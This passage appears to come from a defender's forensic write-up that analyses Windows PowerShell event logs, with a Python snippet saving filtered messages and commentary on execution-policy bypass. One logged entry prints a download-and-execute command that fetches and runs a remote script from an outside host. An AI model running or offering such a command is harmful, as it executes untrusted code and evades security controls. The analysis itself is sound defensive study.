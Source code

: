             Sequence Number = 25
            User = WIN-PTFPHFCRDJ0\user
            Connected User = 
            Shell ID = Microsoft.PowerShell
    
    
    User Data:
    
    
    
    
    
    CommandInvocation(Add-Type): "Add-Type"
    ParameterBinding(Add-Type): name="AssemblyName"; value="System.Security"
    
    
    Context:
            Severity = Informational
            Host Name = ConsoleHost
            Host Version = 5.1.17763.1
            Host ID = 64b188be-5af0-47d4-a9d6-934a93dbd615
            Host Application = powershell -ep bypass -c IEX (New-Object Net.WeBcLIENT).Downloadstring('https://gist.githubusercontent.com/blueteampathway/c5735d8a38a02e1cb903a53c6ba860e7/raw/e5caae5b0e2537a5891d71d127866733a367add4/gistfile1.txt');Invoke-AllChecks
            Engine Version = 5.1.17763.1
            Runspace ID = 9584e18e-a650-45d6-828d-f57b3bf92e41
            Pipeline ID = 1
            Command Name = Add-Type
            Command Type = Cmdlet
            Script Name = 
            Command Path = 
            Sequence Number = 23
            User = WIN-PTFPHFCRDJ0\user
            Connected User = 
            Shell ID = Microsoft.PowerShell
    
    
    User Data:
    
    
    
    



```python
with open("simple_analysis_reports/5_executing_pipeline_category_successful_actions.txt", 'w') as fh:
    for message in powershell_df[(powershell_df.failed == 0) & (powershell_df.TaskDisplayName == "Executing Pipeline")]["Message"]:
        fh.write(f"\n{message}\n\n")
```

The events suggest that these were successful attempts to download text files, bypassing the execution policy for PowerShell (-ep bypass). Unfortunately, the repository is not found and the investigation based on the assumption that this text file might still exist somewhere on the Internet did not reveal any particular details which could lead to further information on this file.

## Successful malicious activity
